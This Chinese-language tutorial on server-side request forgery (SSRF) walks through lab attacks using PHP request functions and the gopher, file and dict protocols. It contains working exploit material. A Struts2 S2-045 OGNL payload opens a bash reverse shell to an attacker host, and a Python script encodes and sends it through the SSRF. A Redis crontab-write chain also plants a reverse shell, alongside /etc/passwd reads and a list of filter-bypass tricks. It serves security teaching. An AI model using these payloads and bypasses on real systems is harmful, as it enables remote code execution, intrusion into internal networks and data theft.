# SSRF漏洞完全指南

## 1. 概述

SSRF(Server-Side Request Forgery，服务器端请求伪造)是一种由攻击者构造请求，由服务端发起请求的一个安全漏洞，漏洞属于信息泄露的一种。一般情况下，SSRF攻击的目标是从外网无法访问的内部系统，因为服务器请求天然的可以穿越防火墙。

漏洞形成的原因大多是因为服务端提供了从其他服务器应用获取数据的功能且没有对目标地址作正确的过滤和限制。

一般情况下，SSRF的攻击目标大多是网站的内部系统（正因为请求是由服务器端发起的，所以服务器能请求到与自身相连而与外网隔离的内部系统），只要当前服务器有向其他服务器发送请求的地方都可能存在SSRF漏洞。

**一句话总结**：利用一个可以发起网络请求的服务当作跳板来攻击内部其他服务



---

## 2. 前置知识

### 2.1 相关函数

#### 2.1.1 file_get_contents

file_get_contents()函数是PHP中一个用于读取文件内容的函数，它可以从一个文件中读取内容并返回该文件的内容字符串。

**语法**：

```php
string file_get_contents(string $filename, bool $use_include_path = false, resource $context = null, int $offset = 0, int $maxlen = null)
```

**参数说明**：

- `$filename`：要读取的文件的名称，可以是本地文件或远程文件的URL。
- `$use_include_path`：可选参数，默认为false。如果设置为true，则会在include_path中查找文件。
- `$context`：可选参数，通常不需要使用。可以使用stream_context_create()创建的上下文资源来控制file_get_contents()的行为。
- `$offset`：可选参数，默认为0。从文件开始读取的字节数偏移量。
- `$maxlen`：可选参数，默认为null。要读取的最大字节数。

**示例**：

```php
// 从本地文件中读取内容
$file_contents = file_get_contents("./demo.txt");
// 从远程文件中读取内容
$url_contents = file_get_contents('http://example.com/');
```

**利用点**：可以从远程文件读取内容，相当于可以对内部的地址发起攻击的访问请求。

#### 2.1.2 fsockopen

fsockopen()函数是PHP中一个用于创建网络套接字连接的函数，可以用于连接到远程服务器并与其通信。它允许PHP脚本像一个网络客户端一样与远程服务器进行交互，例如发送和接收数据。

**语法**：

```php
resource fsockopen(string $hostname, int $port = -1, int &$errno = null, string &$errstr = null, float $timeout = null)
```

**参数说明**：

- `$hostname`：要连接的主机名或IP地址。
- `$port`：可选参数，默认为-1。要连接的端口号。如果未指定端口，则使用默认端口。
- `$errno`：可选参数，默认为null。如果连接失败，则返回错误代码。
- `$errstr`：可选参数，默认为null。如果连接失败，则返回错误消息。
- `$timeout`：可选参数，默认为null。连接超时时间，以秒为单位。如果在指定的时间内无法建立连接，则函数返回false。

**示例**：

```php
<?php
    $socket = fsockopen('www.baidu.com', 80, $errno, $errstr, 30);
    // 与www.baidu.com:80建立连接
    if ($socket) {
    // 连接成功
    $request = "GET / HTTP/1.1\r\n";
    $request .= "Host: www.baidu.com\r\n";
    $request .= "Connection: Close\r\n\r\n";
    // $request此时构造了一个http的请求头，想要请求www.baidu.com的/路径内容
    fwrite($socket, $request);
    // 将构造好的http请求头发送给$socket建立的连接
    while (!feof($socket)) {
      // 当$socket拿到的回复没有取完
        $response .= fgets($socket, 1024);
      // 每次读取1024字节，拼接到$response变量上
    }
    fclose($socket);
    echo $response;
    } else {
    // 连接失败
    echo "Error $errno: $errstr";
    }
?>
```



基于这种原理，可以做出web代理应用：



可以看到页面是google但是域名确实代理地址：



#### 2.1.3 curl_exec

curl_exec()函数是PHP中一个用于执行cURL会话的函数，可以用于发送HTTP请求并获取响应。它允许PHP脚本像一个网络客户端一样与远程服务器进行交互，例如发送和接收数据。

**语法**：

```php
mixed curl_exec(resource $curl)
```

**参数说明**：

- `$curl`：cURL句柄，使用curl_init()创建。

**示例**：

```php
// 初始化cURL句柄
$curl = curl_init();
// 设置cURL选项
curl_setopt($curl, CURLOPT_URL, 'http://www.baidu.com/');
curl_setopt($curl, CURLOPT_RETURNTRANSFER, true);
// 执行cURL会话
$response = curl_exec($curl);
// 关闭cURL句柄
curl_close($curl);
// 输出响应
echo $response;
```



### 2.2 相关协议

#### 2.2.1 Gopher协议

Gopher在HTTP协议前是非常有名的信息查找系统，但是很老了，很少服务会用到它。但是在SSRF漏洞中，它大方光彩，让SSRF漏洞利用更加广泛，利用此协议可以对ftp，memcache，mysql，telnet，redis等服务进行攻击，并可以构造发送GET，POST请求包。

也就是通过Gopher协议可以通过SSRF漏洞，让服务器发送自己精心构造的GET或者POST请求包。

```text
gopher://<host>:<port>/<gopher-path>_后面接TCP数据流
```

**利用要点**：

- PHP版本大于等于5.3
- PHP.ini开启了php_curl
- gopher没有默认端口，需要指定：gopher://127.0.0.1:80
- 在传送GET或POST数据时需要经过二次URL编码
- URL编码时回车换行需要使用%0d%0a替换%0a
- POST中的&也需要URL编码

**利用方式**：

使用Gopher协议发送一个请求，环境为：nc起一个监听，curl发送gopher请求。

nc启动监听，监听2333端口：`nc -lp 2333`

使用curl发送http请求，命令为：

```text
curl gopher://192.168.173.129:2333/abcd
```

此时nc收到的消息为：

```text
┌──(kali㉿kali)-[~]
└─$ nc -lp 2333
bcd
```

可以发现url中的a没有被nc接受到，如果命令变为：

```text
curl gopher://192.168.173.129:2333/_abcd
```

此时nc收到的消息为：

```text
┌──(kali㉿kali)-[~]
└─$ nc -lp 2333
abcd
```

所以需要在使用gopher协议时在url后加入一个字符（该字符可随意写）。

在gopher协议中发送HTTP的数据，需要以下三步：

1. 构造HTTP数据包
2. URL编码、替换回车换行为%0d%0a
3. 发送gopher协议



准备一个php代码：

```php
<?php
   echo "<h1>Hello " . $_REQUEST['name'] . "</h1><br>";
?>
```

一个GET型的HTTP包：

```text
GET /test.php?name=eagle HTTP/1.1
Host: 10.1.0.30:8000
```

URL编码后为：

```text
curl gopher://10.1.0.30:8000/_GET%20/test.php%3fname=eagle%20HTTP/1.1%0d%0aHost:%2010.1.0.30:8000%0d%0A
```



**需要注意**：

1. 问号（？）需要转码为URL编码，也就是%3f
2. 回车换行要变为%0d%0a，但如果直接用工具转，可能只会有%0a
3. 在HTTP包的最后要加%0d%0a，代表消息结束（具体可研究HTTP包结束）

**发送HTTP POST请求**：

POST数据包的格式：

```text
POST /test.php HTTP/1.1
Host: 10.1.0.30:8000

name=eagle
```

将上面的POST数据包进行URL编码并改为gopher协议：

```text
curl gopher://10.1.0.30:8000/_POST%20/test.php%20HTTP/1.1%0d%0aHost:%2010.1.0.30:8000%0d%0a%0d%0aname=eagle%0d%0a
```



查看报错日志发现问题出现在POST请求头中，经过排查发现有4个参数为必要参数：

```text
POST /test.php HTTP/1.1
Host: 10.1.0.30:8000
Content-Type:application/x-www-form-urlencoded
Content-Length:10

name=eagle
```

进行URL编码：

```text
curl gopher://10.1.0.30:8000/_POST%20/test.php%20HTTP/1.1%0d%0aHost:%2010.1.0.30:8000%0d%0aContent-Type:application/x-www-form-urlencoded%0d%0aContent-Length:10%0d%0a%0d%0aname=eagle%0d%0a
```

发现请求正常：



**反弹shell**：

Struts2框架是一个用于开发Java EE网络应用程序的开放源代码网页应用程序架构。今天我们用到的漏洞是Struts2-045漏洞，以下为S2-045漏洞反弹shell的利用代码，在本地机器上执行：`nc -lp 2333`

```text
GET / HTTP/1.1
Host: 192.168.173.88:8080
Content-Type:%{(#_='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='bash -i >& /dev/tcp/192.168.173.129/2333 0>&1').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}
```

此处需要如下操作，推荐在线编码小工具：https://iproute.cn/html/encoder/





**在SSRF中使用gopher协议反弹shell**：

环境如下，本次使用的是两个容器作为ssrf主机和s2-045漏洞主机：

```text
[root@localhost ~]# docker run -d -p 80:80 -v /root/lnmp/www:/app/public --name=lnmp registry.cn-hangzhou.aliyuncs.com/eagleslab/service:lnmp56
[root@localhost ~]# docker run -d --name struts2 vulhub/struts2:2.3.30
```



**IP地址说明**：

| 设备简称 | IP地址 | 说明 |
| --- | --- | --- |
| kali虚拟机 | 192.168.173.129 | 发起gopher攻击和nc监听的kali虚拟机 |
| lnmp主机 | 192.168.173.88 | 存在ssrf漏洞的机器，上面运行着一个lnmp，里面跑着下面提到的php代码 |
| struts2容器 | 172.17.0.2 | struts2容器，因为存在一个get提交命令执行的漏洞，所以被拿过来作为ssrf最终攻击的目标 |

准备一个带有SSRF漏洞的页面，在`lnmp主机`上执行的代码如下：

```php
cat << 'EOT' > /root/lnmp/www/index.php
<?php
    $url = $_GET['url'];
    $curlobj = curl_init($url);
    echo curl_exec($curlobj);
    echo $url;
?>
EOT
```

这里需要注意的是，你的PHP版本必须大于等于5.3，并且在PHP.ini文件中开启了extension=php_curl.dll。

使用SSRF漏洞配合gopher协议来获取shell：



为了方便大家二次编码，此处提供python3脚本工具：

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
import urllib.parse, urllib.request

url = "http://192.168.173.88/?url="
# 可以被外部访问的地址
header = """gopher://172.17.0.2:8080/_GET / HTTP/1.1
Host:172.17.0.2:8080
Content-Type:"""
# 地址是内部的靶机地址
cmd = "bash -i >& /dev/tcp/192.168.173.129/2333 0>&1"
# nc的地址
content_type = """%{(#_='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='"""+cmd+"""').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}"""
# nc的地址需要改好
header_encoder = ""
content_type_encoder = ""
content_type_encoder_2 = ""
url_char = [" "]
nr = "\r\n"

# 编码请求头
for single_char in header:
    if single_char in url_char:
        header_encoder += urllib.parse.quote(urllib.parse.quote(single_char,'utf-8'),'utf-8')
    else:
        header_encoder += single_char

header_encoder = header_encoder.replace("\n",urllib.parse.quote(urllib.parse.quote(nr,'utf-8'),'utf-8'))

# 编码content-type，第一次编码
for single_char in content_type:
    # 先转为ASCII,在转十六进制即可变为URL编码
    content_type_encoder += str(hex(ord(single_char)))
content_type_encoder = content_type_encoder.replace("0x","%") + urllib.parse.quote(nr,'utf-8')
# 编码content-type，第二次编码
for single_char in content_type_encoder:
    # 先转为ASCII,在转十六进制即可变为URL编码
    content_type_encoder_2 += str(hex(ord(single_char)))
content_type_encoder_2 = content_type_encoder_2.replace("0x","%")
exp = url + header_encoder + content_type_encoder_2
print(exp)
request = urllib.request.urlopen(exp).read()
print(request)
```

#### 2.2.2 file协议

File协议是一种用于访问本地文件系统的URI协议，它允许通过URI来直接引用文件系统中的文件。

file协议可以查看本地的文件，如果存在ssrf漏洞的主机挂载了一些内网的资源，比如samba等，就可以借助ssrf漏洞访问内网的资源了。

File协议的格式通常如下所示：

```text
file:///path/to/file
```

其中file://表示使用File协议，/path/to/file表示文件在文件系统中的路径。在Windows系统上，路径可能包含驱动器号，例如：

```text
file:///C:/path/to/file
```

使用File协议，可以在Web浏览器或其他支持URI协议的应用程序中打开本地文件。

```text
curl -v 'file:///etc/passwd'
```



如下的url就可以访问ssrf漏洞的主机本地的文件：

```text
curl http://192.168.173.88/?url=file:///etc/passwd
```

#### 2.2.3 Dict协议

Dict协议是一种用于在互联网上查询字典和词典的URI协议。它通常用于查询特定词汇的定义、拼写或同义词等相关信息。Dict协议使用TCP端口2628进行通信。

Dict协议的URI格式通常如下所示：

```text
dict://<hostname>:<port>/<database>/<strategy>:<word>
```

其中`<hostname>`表示字典服务器的主机名或IP地址，`<port>`表示字典服务器的端口号，`<database>`表示所要查询的词典名称，`<strategy>`表示查询策略，`<word>`表示要查询的词汇。

curl_exec函数是危害最大的函数，也是需要重点讲的函数。curl_exec的使用需要3个条件：

1. PHP版本>=5.3
2. 开启extension=php_curl.dll
3. --wite-curlwrappers（编译PHP时用，此时不需要，可忽略）

```php
<?php
$url = $_GET['url'];
$curlobj = curl_init($url);
echo curl_exec($curlobj);
?>
```

可以对内网IP地址扫描，在发现对应的端口之后，使用dict协议可以获取目标端口指纹。

**SSH服务的端口指纹**：

```text
http://192.168.173.88/?url=dict://10.3.0.11:22
```



**redis的端口指纹**：

redis是一种键值对数据库，在开发中常用作缓存数据库，缓存中会出现大量的敏感信息，比如用户登录的session，应用的api key等等，所以redis数据库发生数据泄漏，会导致很严重的后果。企业的redis数据库都会保护在内网中，不会对外开放的。

```bash
docker run -d --name redis registry.cn-hangzhou.aliyuncs.com/eagleslab/service:redis

# 查看容器的IP地址
docker inspect -f '{{range .NetworkSettings.Networks}}{{.IPAddress}}{{end}}' redis
```

访问如下地址，就可以探测redis端口指纹了：

```bash
http://192.168.173.88/?url=dict://172.17.0.3:6379
```



可以使用dict协议执行命令，例如可以获取redis的变量：

```bash
docker exec -it redis bash
root@88bf4f00b6db:/data# redis-cli
# 先在redis中配置一个变量
127.0.0.1:6379> set name <h1>eagle</h1>
OK
```

查询变量：

```bash
http://192.168.173.88/?url=dict://172.17.0.3:6379/get:name
```



**通过dict协议利用redis的未授权访问反弹shell**：

开启nc监听：`nc -lp 2333`

**扩展知识**：

1. redis所有的数据都是存放在内存中的，那么一旦重启redis，数据就会全丢。
2. redis是可以支持数据持久化的，这个功能叫做RDB，启用了RDB之后，redis就会将键值数据保存在备份文件中。
3. 在redis中输入bgsave就会将键值数据保存到dir/dbfilename这个文件中。
4. 在redis中可以通过`set dir`和`set dbfilename`来改变这个RDB文件的存放位置。
5. 如果redis中有个值是`<?php phpinfo();?>`，保存位置被我们改成了`/var/www/html/tz.php`那么就可以利用成功了。
6. 下面将会以Linux任务计划crontab的配置文件被篡改来说明。
7. crontab是Linux的任务计划，`/etc/contab`文件中写的命令会按照contab表达式的时间周期自动执行。

redis可以使用如下方式查看提交的内容：

```bash
redis-cli
# 进入redis命令行模式

monitor
# 可以查看提交的内容，已经是否提交成功

keys *
# 查看所有的key

get name
# 查看name的值

config get dir
# 查看config中dir的值
```

先访问如下地址，写入一个键值对：

```text
# 实测payload中如果带有空格，就无法成功，但是可以转换为16进制来绕过
# 这里使用浏览器访问可能会有语法错误提示，以下面是否写入成功为准
http://192.168.173.88/?url=dict://172.17.0.3:6379/set:mars:"\n\n\x2a/1\x20\x2a\x20\x2a\x20\x2a\x20\x2a\x20/bin/bash\x20\x2di\x20\x3e\x26\x20/dev/tcp/192.168.173.129/2333\x200\x3e\x261\n\n"
```

可以在redis容器里面查看是否写入成功：

```bash
root@88bf4f00b6db:/data# redis-cli
127.0.0.1:6379> get mars
"\n\n*/1 * * * * /bin/bash -i >& /dev/tcp/192.168.173.129/2333 0>&1\n\n"
```

下面修改`dir`和`dbfilename`两个值：

```bash
http://192.168.173.88/?url=dict://172.17.0.3:6379/config:set:dir:/etc/
# 注意容器中/etc目录下并没有写入权限，此处可以使用/tmp来做测试

http://192.168.173.88/?url=dict://172.17.0.3:6379/config:set:dbfilename:crontab
```

然后使用RDB数据保存下来的命令：

```bash
http://192.168.173.88/?url=dict://172.17.0.3:6379/bgsave

# 查看一下容器中的/tmp目录下是否成功看到payload
root@e8d143487e83:/data# cat /tmp/crontab
mars@B

*/1 * * * * /bin/bash -i >& /dev/tcp/192.168.173.129/2333 0>&1
```

---

## 3. 利用相关

### 3.1 实现攻击

- 可以对外网、服务器所在内网、本地进行端口扫描，获取一些服务的banner信息
- 攻击运行在内网或本地的应用程序（比如溢出）
- 对内网WEB应用进行指纹识别，通过访问默认文件实现
- 攻击内外网的web应用，主要是使用GET参数就可以实现的攻击（比如Struts2，sqli等）
- 利用file协议读取本地文件等

### 3.2 可能存在漏洞的位置

能够对外发起网络请求的地方，就可能存在SSRF漏洞：

- 数据库内置功能（Oracle、MongoDB、MSSQL、Postgres、CouchDB）
- 文件处理、编码处理、属性信息处理（ffmpeg、ImageMagic、DOCX、PDF、XML）
- 未公开的api实现及调用URL的功能
- 社交分享功能：获取超链接的标题等内容进行显示
- 转码服务：通过URL地址把原地址的网页内容调优使其适合手机屏幕浏览
- 在线翻译：给网址翻译对应网页的内容
- 图片加载/下载：例如富文本编辑器中的点击下载图片到本地；通过URL地址加载或下载图片
- 图片/文章收藏功能：主要其会取URL地址中title以及文本的内容作为显示以求一个好的用户体验
- 云服务厂商：它会远程执行一些命令来判断网站是否存活等，所以如果可以捕获相应的信息，就可以进行ssrf测试
- 网站采集，网站抓取的地方：一些网站会针对你输入的url进行一些信息采集工作
- 数据库内置功能：数据库的比如mongodb的copyDatabase函数
- 邮件系统：比如接收邮件服务器地址
- 编码处理、属性信息处理、文件处理：比如ffpmg，ImageMagick，docx，pdf，xml处理器等
- 未公开的api实现以及其他扩展调用URL的功能：可以利用google语法加上这些关键字去寻找SSRF漏洞

一些URL中的关键字：share、wap、url、link、src、source、target、u、3g、display、sourceURl、imageURL、domain……

---

## 4. 实操案例

### 4.1 ssrf_curl

```bash
http://d19.s.iproute.cn/vul/ssrf/ssrf_curl.php?url=http://d19.s.iproute.cn/vul/ssrf/ssrf_info/info1.php
```



我们可以看到这个链接有一个URL参数，单独拿出来访问：



可以看到有这个对应内容，如果我们把这个URL参数改成`https://www.baidu.com/`可以看到内容发生了变化：



那我们就可以利用这个来进行利用：

**读取本地文件**：

```bash
http://d19.s.iproute.cn/vul/ssrf/ssrf_curl.php?url=file:///C:\windows\win.ini
```



可以看到文件内容被显示到网页上。

**内网探测**：

如果端口开放就会把对应的界面显示到网页中，如果没有开放就会转圈需要一直在链接，并且我们可以使用F12查看有无新增的前端代码。

端口未开放：

```bash
http://d19.s.iproute.cn/vul/ssrf/ssrf_curl.php?url=http://10.1.10.10:22
```



**源码分析**：

```php
<?php
if(isset($_GET['url']) && $_GET['url'] != null){
   // 接收前端 URL 没问题 ,但是要做好过滤 ,如果不做过滤 ,就会导致 SSRF
   $URL = $_GET['url'];
   $CH = curl_init($URL);
   curl_setopt($CH, CURLOPT_HEADER, FALSE);
   curl_setopt($CH, CURLOPT_SSL_VERIFYPEER, FALSE);
   $RES = curl_exec($CH);
   curl_close($CH) ;
   echo $RES;
}
?>
```

前端传进来的url被后台使用curl_exec()进行了请求，然后将请求的结果又返回给了前端。

除了http/https外，curl还支持一些其他的协议`curl --version`可以查看其支持的协议：

```text
dict file ftp ftps gopher gophers http https imap imaps ldap ldaps mqtt pop3 pop3s
rtmp rtsp scp sftp smb smbs smtp smtps telnet tftp
```

### 4.2 ssrf_fgc

```text
http://d19.s.iproute.cn/vul/ssrf/ssrf_fgc.php?file=http://d19.s.iproute.cn/vul/ssrf/ssrf_info/info2.php
```



读取当前文件：

```text
http://d19.s.iproute.cn/vul/ssrf/ssrf_fgc.php?file=php://filter/read=convert.base64-encode/resource=ssrf_fgc.php
```



---

## 5. 绕过技巧

### 5.1 攻击本机

```text
http://127.0.0.1:80
http://localhost:22
```

### 5.2 利用@绕过

```text
http://example.com@127.0.0.1
# 这里的example.com可以任意替换
```

### 5.3 利用短地址绕过

```text
http://127.0.0.1可以变为http://suo.im/5UHEvD
# 转换地址有很多，可以采用http://tool.chinaz.com/tools/dwz.aspx
```

### 5.4 特殊域名绕过

```text
http://127.0.0.1.xip.io/
http://www.margin.com.127.0.0.1.xip.io/
```

### 5.5 利用Enclosed alphanumerics

```text
ⓧⓐⓜⓟⓛⓔ.ⓒⓞⓜ  >>>  example.com
List:
① ② ③ ④ ⑤ ⑥ ⑦ ⑧ ⑨ ⑩ ⑪ ⑫ ⑬ ⑭ ⑮ ⑯ ⑰ ⑱ ⑲ ⑳
⑴ ⑵ ⑶ ⑷ ⑸ ⑹ ⑺ ⑻ ⑼ ⑽ ⑾ ⑿ ⒀ ⒁ ⒂ ⒃ ⒄ ⒅ ⒆ ⒇
⒈ ⒉ ⒊ ⒋ ⒌ ⒍ ⒎ ⒏ ⒐ ⒑ ⒒ ⒓ ⒔ ⒕ ⒖ ⒗ ⒘ ⒙ ⒚ ⒛
⒜ ⒝ ⒞ ⒟ ⒠ ⒡ ⒢ ⒣ ⒤ ⒥ ⒦ ⒧ ⒨ ⒩ ⒪ ⒫ ⒬ ⒭ ⒮ ⒯ ⒰ ⒱ ⒲ ⒳ ⒴ ⒵
Ⓐ Ⓑ Ⓒ Ⓓ Ⓔ Ⓕ Ⓖ Ⓗ Ⓘ Ⓙ Ⓚ Ⓛ Ⓜ Ⓝ Ⓞ Ⓟ Ⓠ Ⓡ Ⓢ Ⓣ Ⓤ Ⓥ Ⓦ Ⓧ Ⓨ Ⓩ
ⓐ ⓑ ⓒ ⓓ ⓔ ⓕ ⓖ ⓗ ⓘ ⓙ ⓚ ⓛ ⓜ ⓝ ⓞ ⓟ ⓠ ⓡ ⓢ ⓣ ⓤ ⓥ ⓦ ⓧ ⓨ ⓩ
⓪ ⓫ ⓬ ⓭ ⓮ ⓯ ⓰ ⓱ ⓲ ⓳ ⓴
⓵ ⓶ ⓷ ⓸ ⓹ ⓺ ⓻ ⓼ ⓽ ⓾ ⓿
```

### 5.6 利用句号代替点绕过

```text
127.0.0.1 变为127。0。0。1
```

### 5.7 使用其他进制绕过

例如127.0.0.1：

```text
(1)、8进制格式：0177.0.0.1
(2)、16进制格式：0x7F.0.0.1
(3)、10进制整数格式：2130706433（转16进制，在转10进制）
(4)、16进制整数格式：0x7F000001
(5)、还有一种特殊的省略模式，例如127.0.0.1这个IP可以写成127.1
```

### 5.8 特殊域名绕过（DNS解析）

互联网上有很多解析到127.0.0.1的域名，例如：

```text
safe.taobao.com
114.taobao.com
ecd.tencent.com
wifi.aliyun.com
一个专门解析到127.0.0.1的域名：localtest.me，也可以使用子域名。例如：

localtest.me
www.localtest.me
test.localtest.me
a.b.c.localtest.me
1234.localtest.me
```

### 5.9 利用协议

```text
Dict://
 dict://<user-auth>@<host>:<port>/d:<word>
 ssrf.php?url=dict://attacker:11111/
SFTP://
 ssrf.php?url=sftp://example.com:11111/
TFTP://
 ssrf.php?url=tftp://example.com:12346/TESTUDPPACKET
LDAP://
 ssrf.php?url=ldap://localhost:11211/%0astats%0aquit
Gopher://
 ssrf.php?url=gopher://127.0.0.1:25/xHELO%20localhost
```

### 5.10 CRLF编码绕过

```text
%0d->0x0d->\r 回车
%0a->0x0a->\n 换行
进行 HTTP 头部注入
example.com/?url=http://eval.com%0d%0aHOST:fuzz.com%0d%0a
```

### 5.11 使用IPV6

有些服务没有考虑IPv6的情况，但是内网又支持IPv6，则可以使用IPv6的本地IP如[::] 0000::1或IPv6的内网域名来绕过过滤。
